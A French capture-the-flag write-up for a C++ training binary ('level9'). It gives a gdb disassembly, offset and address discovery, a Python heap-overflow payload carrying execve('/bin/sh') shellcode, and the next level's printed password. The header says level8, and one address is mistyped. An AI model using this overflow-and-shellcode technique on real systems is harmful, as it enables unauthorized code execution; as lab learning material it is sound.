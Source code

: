 



# level8


## description
- Il y a un exécutable **level9**.
- L'exécutable ne fais rien.

## Résolution

En regardant les fonctions présente dans l'exécutable avec gdb, on se rends compte que c'est du **c++**.

       0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
Il y a une fonction setAnnotation qui est appelée.

    Dump of assembler code for function _ZN1N13setAnnotationEPc:
       0x0804870e <+0>:     push   ebp
       0x0804870f <+1>:     mov    ebp,esp
       0x08048711 <+3>:     sub    esp,0x18
       0x08048714 <+6>:     mov    eax,DWORD PTR [ebp+0xc]
       0x08048717 <+9>:     mov    DWORD PTR [esp],eax
       0x0804871a <+12>:    call   0x8048520 <strlen@plt>
       0x0804871f <+17>:    mov    edx,DWORD PTR [ebp+0x8]
       0x08048722 <+20>:    add    edx,0x4
       0x08048725 <+23>:    mov    DWORD PTR [esp+0x8],eax
       0x08048729 <+27>:    mov    eax,DWORD PTR [ebp+0xc]
       0x0804872c <+30>:    mov    DWORD PTR [esp+0x4],eax
       0x08048730 <+34>:    mov    DWORD PTR [esp],edx
       0x08048733 <+37>:    call   0x8048510 <memcpy@plt>
       0x08048738 <+42>:    leave  
       0x08048739 <+43>:    ret    
    End of assembler dump.
On voit qu'il y a **memcpy** qui est utilisé. on va pouvoir l'exploiter pour **overflow** et utiliser un **Shell code**.

le Shell code que l'on va utiliser : http://shell-storm.org/shellcode/files/shellcode-827.php

Il faut trouver l'offset.
le pattern que l'on va utilisé: 

    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
l'offset est 108.

Il nous faut l'adresse de debut de notre buffer, pour cela on va faire un breakpoint avec gdb et remplacer la valeur par "AAAA"

    (gdb) run 'AAAA'
    Starting program: /home/user/level9/level9 'AAAA'
    
    Breakpoint 1, 0x0804867c in main ()
    (gdb) x $eax
    0x804a00c:      0x41414141

On a notre adresse **0x804a00c** mais on doit déréférencer donc on ajouter 4 bytes. 
0x804a00x + 4 = 0x804a010.


    python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "A" * 76 + "\x0c\xa0\04\x08"' > /tmp/exploit9 && ./level9 `cat /tmp/exploit9`

Reste a afficher le flag

    cat /home/user/bonus0/.pass
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728

